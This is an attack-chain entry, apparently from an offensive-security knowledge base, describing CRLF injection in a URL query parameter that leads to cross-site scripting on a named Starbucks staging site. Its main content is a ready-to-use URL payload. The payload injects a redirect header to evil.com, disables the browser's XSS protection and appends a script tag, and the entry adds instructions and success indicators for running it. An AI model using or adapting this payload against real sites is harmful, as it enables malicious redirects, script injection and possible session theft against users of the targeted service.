

---
tags:
  - crlf-injection
  - xss
  - web-vulnerability
  - header-injection
type: attack_chain
tools:
  - '[[tools/Chrome]]'
  - '[[tools/Firefox]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/CRLF-Injection-Leading-to-XSS]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:52:24.293Z'
description: >-
  A web vulnerability chain exploiting CRLF injection in a URL query parameter
  to manipulate HTTP response headers and inject XSS payloads, resulting in
  arbitrary JavaScript execution in the victim's browser.
skill_level: intermediate
impact_level: high
id: 4f7f8a69-a970-4778-bb99-daa14af6fa5a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# CRLF Injection in URL Query Leading to XSS on Starbucks Staging Site

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Chrome]]
- [[tools/Firefox]]

### Target Environment

- Web platform
- Access to staging site (e.g., stagecafrstore.starbucks.com)
- No specific ports or services required beyond HTTP/HTTPS

### Initial Access Requirements

- Direct network access to the target URL
- No credentials needed
- Victim must visit the crafted malicious URL

## Detailed Attack Procedures

### Step 1: Construct and Access Malicious URL
procedure: [[procedures/CRLF-Injection-Leading-to-XSS]]

**Objective**: Inject CRLF sequences into the URL query parameter to manipulate HTTP response headers, disable security protections, and inject an XSS payload into the response body, triggering JavaScript execution upon redirect.

**Instructions**: Use a web browser to construct and navigate to a URL with encoded CRLF payloads. For example, in the query parameter of http://stagecafrstore.starbucks.com/?, append %0d%0a sequences to inject headers like Location, Content-Type: text/html, and X-XSS-Protection: 0, followed by a script tag in the body.

Example payload construction:

```url
http://stagecafrstore.starbucks.com/?param=%0d%0aLocation:%20http://evil.com%0d%0aContent-Type:%20text/html%0d%0aX-XSS-Protection:%200%0d%0a%0d%0a<script>alert(document.domain)</script>
```

Access this URL in the browser to trigger the 301 redirect with the injected XSS.

**Expected Output**: Browser redirects to the injected Location while executing the script, displaying an alert with the document domain.

**Success Indicators**:
- Alert box pops up showing the domain (e.g., stagecafrstore.starbucks.com)
- Network inspection shows manipulated headers in the response
- No CSP or XSS-Protection blocks the script execution

## Attack Chain Summary

### Key Achievements

1. Successful CRLF injection bypassing input validation
2. Header manipulation to disable X-XSS-Protection and force a custom redirect
3. XSS payload execution leading to potential session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
